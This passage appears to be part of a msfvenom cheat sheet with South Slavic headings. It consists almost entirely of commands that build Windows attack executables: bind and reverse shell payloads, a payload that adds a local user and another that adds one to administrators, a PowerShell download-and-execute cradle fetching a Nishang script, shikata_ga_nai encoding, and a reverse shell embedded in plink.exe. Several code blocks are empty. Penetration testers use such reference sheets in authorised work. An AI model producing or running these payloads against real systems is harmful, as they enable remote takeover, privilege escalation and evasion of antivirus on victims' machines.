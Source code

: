 ```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```

### Kreiranje korisnika

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```

### CMD Shell

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
{% endcode %}

### Enkoder

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

### Ugrađeno unutar izvršne datoteke

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

{% code overflow="wrap" %}
```
```
{% endcode %}
